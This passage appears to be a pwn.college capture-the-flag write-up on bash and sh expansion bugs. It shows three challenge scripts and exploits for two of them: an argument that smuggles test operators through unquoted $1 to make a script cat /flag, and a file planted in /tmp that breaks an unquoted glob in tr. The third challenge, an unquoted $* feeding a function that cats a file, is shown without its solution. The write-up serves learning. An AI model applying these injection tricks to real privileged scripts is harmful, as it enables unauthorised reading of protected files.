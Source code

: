 ### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin

[ -n "$1" ] || exit 1
[ "$1" = "flag" ] && exit 2
[ $1 = "flag" ] && cat /flag

echo "Goodbye!"
```

### exploit
```sh
/challenge/run "1 = 1 -o flag"
```
due to unquoted expansion, was able to substitute $1 with any string

# Globbing Harmony

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin
cd /tmp
cat /flag | tr -d [A-Za-z0-9]
```

### exploit
```sh
touch /tmp/9
/challenge/run
```
"filename expansion" is used in tr command, which replaces that glob with matching file name, in our case by 9, and then truncates only character '9'.

# Zen of Expansion

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

pretty_cat () {
	HEADER="Here is /etc/passwd!"
	FILE="/etc/passwd"
	[ -n "$1" ] && HEADER="$1" && shift
	[ -n "$1" ] && FILE="$1" && shift

	echo "####### $HEADER ########"
	cat "$FILE"
}

[ "$#" -eq 1 ] || exit 1
pretty_cat $*
```
